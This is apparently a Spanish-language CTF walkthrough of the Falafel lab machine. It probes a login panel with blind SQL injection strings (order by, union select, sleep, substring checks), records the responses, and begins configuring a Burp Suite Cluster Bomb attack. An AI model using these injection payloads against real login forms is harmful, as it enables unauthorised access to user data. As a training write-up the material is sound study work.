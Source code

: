 ### Blind SQL Injection {-}

Como no podemos utilizar el `upload.php` solo nos queda que intentar cosas con el panel de login.
Como sabemos que el usuario **admin** existe, probamos cosas como:

- admin:test -> Wrong identification: admin
- admin':test -> Try Again
- admin' and sleep(5)-- -:tes -> Hacking attempt detected
- ():test -> Try Again
- sleep:test -> Hacking attempt detected
- admin' order by 100-- -:test -> Try Again
- admin' order by 3-- -:test -> Wrong identification: admin
- admin' order by 4-- -:test -> Wrong identification: admin
- admin' order by 5-- -:test -> Try Again
- admin' union select 1,2,3,4-- -:test -> Hacking attempt detected
- select:test -> Try Again
- union:test -> Hacking attempt detected
- dsafdasdfuniondasfasdf:test -> Hacking attempt detected

Estas pruebas nos dan, como informacion, que el panel de login parece ser vulnerable a SQLI, que palabras como union o sleep estan black listeadas y 
que la respuesta de la llamada SQL tiene 4 columnas. Vamos a validar la respuesta de la web en caso de un error y en caso de una buena formula.

- admin' and substring(username,1,1)='a'-- -:test -> Wrong identification: admin
- admin' and substring(username,1,1)='b'-- -:test -> Try Again
- admin' and substring(username,2,1)='d'-- -:test -> Wrong identification: admin
- admin' and substring(username,2,1)='w'-- -:test -> Try Again

Aqui ya vemos que typo de ataque podriamos hacer y tito s4vitar nos quiere enseñarnos como hacer un ataque de typo Cluster Bomb con BurpSuite aunque tiraremos de
un script en python que es mucho mas agil.

#### Cluster Bomb attack con BurpSuite {-}

1. Interceptamos y modificamos la SQLI desde BurpSuite

    ```{r, echo = FALSE, fig.cap="Burp sqli interception", out.width="90%"}
        knitr::include_graphics("images/Falafel-SQLI-intercept.png")
    ```

1. Con Ctrl+i lo enviamos al intruder
1. En el nodo Positions damos al boton `clear §` y selectionamos:
    
    - el primer 1 y le damos al boton `add §`
    - la letra a y le damos al boton `add §`
    - cambiamos el attack type para que valga `Cluster Bomb`

    ```{r, echo = FALSE, fig.cap="Burp Cluster Bomb config", out.width="90%"}
        knitr::include_graphics("images/Falafel-ClusterBomb-config-payload.png")
    ```

1. En el nodo Payloads, seleccionamos el Payload set numero 1
   
    - cambiamos el payload type a Numbers
    - cambiamos el Number range en sequential From 1 To 5 con step de 1
    - sacamos el URL encode del final de la pagina
